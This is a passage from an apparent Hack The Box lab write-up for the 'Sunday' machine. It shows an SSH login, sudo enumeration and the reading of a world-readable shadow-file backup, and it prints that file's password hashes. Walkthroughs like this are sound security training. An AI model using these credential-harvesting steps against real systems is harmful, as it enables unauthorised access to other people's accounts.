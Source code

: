 ```sh
┌─[✗]─[george@parrot]─[~/HTB/boxes/sunday]
└──╼ $ ssh -p 22022 sunny@10.10.10.76
The authenticity of host '[10.10.10.76]:22022 ([10.10.10.76]:22022)' can't be established.
ED25519 key fingerprint is SHA256:t3OPHhtGi4xT7FTt3pgi5hSIsfljwBsZAUOPVy8QyXc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.76]:22022' (ED25519) to the list of known hosts.
Password:
Warning: 10 failed authentication attempts since last successful authentication.  The latest at Sun Oct 01 17:05 2023.
Last login: Sun Oct  1 17:04:40 2023 from 10.10.16.7
Oracle Corporation      SunOS 5.11      11.4    Aug 2018
sunny@sunday:~$
```
## Shell as Sammy
### enumeration

Since we have a password I will check our `sudo` privileges.

```sh
sunny@sunday:~$ sudo -l
User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll
sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

Not much help

Looking at the root folder I see a directory I dont normaly see `backup`

```sh
sunny@sunday:~$ ls /
backup    boot      dev       etc       home      lib       mnt       nfs4      platform  root      sbin      tmp       var
bin       cdrom     devices   export    kernel    media     net       opt       proc      rpool     system    usr       zvboot
```
Inside the `backup` folder, We have two files and we can read the `shadow.backup`.

This is a backup of the shadow file which is only readable by `root`

```sh
sunny@sunday:/backup$ ls -la
total 28
drwxr-xr-x   2 root     root           4 Dec 19  2021 .
drwxr-xr-x  25 root     sys           28 Oct  1 05:39 ..
-rw-r--r--   1 root     root         319 Dec 19  2021 agent22.backup
-rw-r--r--   1 root     root         319 Dec 19  2021 shadow.backup

sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
